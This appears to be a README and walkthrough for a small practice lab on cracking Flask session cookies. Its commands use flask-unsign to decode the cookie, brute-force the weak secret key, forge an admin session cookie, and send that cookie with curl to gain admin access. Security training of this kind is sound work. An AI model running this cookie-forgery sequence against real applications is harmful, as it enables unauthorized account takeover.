 # Cracked Flask

A very simple lab for cracking Flask session cookies.


## Walk Through

Pull down the cookie and have a look what is in it:

```
flask-unsign --decode --server https://crackedflask.digi.ninja
```

Try to crack it:

```
flask-unsign --unsign --server https://crackedflask.digi.ninja
```

Cracked it and got the secret key "monkey" so now create a new cookie with the username admin rather than robin:

```
flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"
```

Finally, make a request using the new cookie:

```
curl --cookie "session=eyJoZWxsbyI6IndvcmxkMiIsInVzZXJuYW1lIjoiYWRtaW4ifQ.YbCXpA.45th8HQUFJO6GHycU_fMkPQ31qc" https://crackedflask.digi.ninja
```

If you want to combine the last two commands:

```
COOKIE=`flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"`
curl --cookie "session=$COOKIE" https://crackedflask.digi.ninja
```

Or you could just put the signing command into the curl command with backticks.

## References

Some useful references:

- [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign) - A tool to decode, crack, and sign, Flask cookies.
- [Building a Flask app](https://flask.palletsprojects.com/en/2.0.x/quickstart/) - Building your first Flask app.
- [Deploying a Flask app](https://flask.palletsprojects.com/en/2.0.x/tutorial/deploy/) - How to deploy a Flask app.
- [Building and deploying a Flask app in Docker](https://support.stackpath.com/hc/en-us/articles/360022987711-Edge-Computing-Building-a-Containerized-Python-Web-App-Using-Flask) - A full walk through of all the stages in a single page.

